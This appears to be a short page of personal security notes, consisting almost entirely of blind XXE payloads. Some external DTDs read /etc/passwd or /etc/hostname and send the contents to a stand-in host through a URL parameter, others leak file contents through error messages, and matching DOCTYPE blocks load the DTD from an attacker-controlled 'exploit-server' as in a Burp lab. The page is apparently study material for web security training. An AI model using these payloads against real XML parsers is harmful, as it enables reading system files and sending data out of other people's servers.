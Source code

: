 ##### Example:
In the server 
~~~xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % data "<!ENTITY &#x25; exfil SYSTEM 'http://url.com/?data1=%file;'>">
%data;
%exfil;
~~~

In the Burp petition 
~~~xml
<!DOCTYPE checker
[
<!ENTITY % xxe SYSTEM "http://exploit-server.net/exploit">
%xxe;
]
>
~~~

##### Example with errors:
~~~xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % data "<!ENTITY &#x25; error SYSTEM 'file:///etc/%file;'>">
%data;
%error;
~~~

In the Burp petition 
~~~xml
<!DOCTYPE checker
[
<!ENTITY % xxe SYSTEM "http://exploit-server.net">
%xxe;
]
>
~~~

#### Exploiting blind XXE to retrieve data via error messages
##### Example
In the server:
~~~xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % data "<!ENTITY &#x25; exfil SYSTEM 'file:///%file;'>">
%data;
%exfil;
~~~

In the burpsuite petition
~~~xml
<!DOCTYPE checker
[
<!ENTITY % xxe SYSTEM "https://exploit-server.net/exploit">
%xxe;
] 
>
~~~
